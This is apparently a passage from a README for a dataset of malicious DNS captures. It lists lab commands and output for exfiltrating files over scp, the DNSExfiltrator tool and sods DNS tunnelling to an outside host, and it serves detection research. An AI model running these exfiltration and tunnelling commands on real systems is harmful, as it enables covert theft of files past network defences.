 Exfiltrate a file to remote

```bash
scp -P 4430 /myfile.txt root@127.0.0.1:/tmp
```

### DNSExfiltrator

Resume:
- Github URL: https://github.com/Arno0x/DNSExfiltrator
- Qtype DNS used: TXT
- Network capture: https://github.com/dmachard/datasets-malicious-dns/blob/main/dns2tcp.pcap

Start the server

```bash
# python2 dnsexfiltrator.py  -d hsc.fr -p password
[*] DNS server listening on port 53
[+] Decrypting using password [password] and saving to output file [Installer.exe.zip]
[+] Output file [Installer.exe.zip] saved successfully
```

Run client to exfiltrate a file

```bash
C:\Users\>dnsExfiltrator.exe Installer.exe hsc.fr password -b32 s=192.168.1.210
[*] Working with DNS server [192.168.1.210]
[*] Compressing (ZIP) the [Installer.exe] file in memory
[*] Encrypting the ZIP file with password [password]
[*] Encoding the data with Base32
[*] Total size of data to be transmitted: [2757608] bytes
[+] Maximum data exfiltrated per DNS request (chunk max size): [233] bytes
[+] Number of chunks: [11836]
[*] Sending 'init' request
[*] Sending data...
[*] DONE !
```

### Sods

Resume:
- Github URL: https://github.com/msantos/sods
- Qtype DNS used: TXT, CNAME and NULL
- Network capture: https://github.com/dmachard/datasets-malicious-dns/blob/main/sods.pcap

```bash
sudo groupadd nogroup
mkdir -p /var/chroot/sods

server


 ./sods -vvvv -L 127.0.0.1:22 -p 5353 hsc.fr
Forwarded sessions = 1
Forward #0: 127.0.0.1:22

client

sudo ./sdt -v -p 22 -r 192.168.1.210 tun.hsc.fr
listening on port = 22
session id = 22508, opt = 0, session = 0
```

